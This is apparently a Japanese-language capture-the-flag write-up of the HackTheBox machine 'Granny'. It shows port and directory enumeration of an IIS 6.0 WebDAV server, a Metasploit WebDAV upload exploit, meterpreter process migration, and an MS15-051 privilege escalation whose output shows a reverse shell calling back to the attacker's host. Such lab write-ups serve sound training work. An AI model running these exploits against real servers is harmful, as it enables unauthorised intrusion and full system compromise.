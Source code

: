 
# Granny - HackTheBox

このボックスを一言でまとめると。アップデートしてくれ　;-;

# Enumeration・情報収集

## Rustscan

```bash
Open 10.10.10.15:80
```

## Nmap

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Sun, 04 Sep 2022 22:11:56 GMT
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## ffuf

```bash
 :: Method           : GET
 :: URL              : http://granny.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 71ms]
_private                [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 60ms]
_vti_log                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 69ms]
_vti_bin                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 126ms]
aspnet_client           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 62ms]
images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 68ms]
:: Progress: [20476/20476] :: Job [1/1] :: 463 req/sec :: Duration: [0:00:33] :: Err
```

# Foothold・初期侵入 & Root

Microsoft IIS 6.0の脆弱性をググってみると、TrendMicroに書かれた ![記事　(英語のみ！)](https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html)が出てきました。

偶然metasploitでmoduleを検索すると"windows/iis/iis_webdav_upload_asp"のmoduleが発見した。

試すとmeterpreterシェルができて、wmiprvse.exeにプロセスマイグレーションしました！

```cmd
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1972  2700  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad10F81.tmp\svchost.exe
 2052  1004  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2164  1848  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2292  584   wmiprvse.exe
 2700  1480  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2768  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3004  344   logon.scr

meterpreter > migrate 1964
[*] Migrating from 1972 to 1964...
[*] Migration completed successfully.
meterpreter > getuid
```

```cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
```

Version 5.2 seems pretty old so I ran it through Windows-Exploit-Suggestor.

Windowsバージョン5.2はかなり古くてwindows-exploit-suggesterっていうスクリプト起動して、MS15-051 - ClientCopyImageっていうエキスプロイトは最初でました。

やってみるとrootシェルゲットだ！

```bash
msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.29:1234 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 3984 launched.
[*] Reflectively injecting the DLL into 3984...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 3 opened (10.10.14.29:1234 -> 10.10.10.15:1035) at 2022-09-04 18:10:02 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

"Lakis"と"Administrator"のホームフォルダーで二つのフラグをゲットしました！　:)
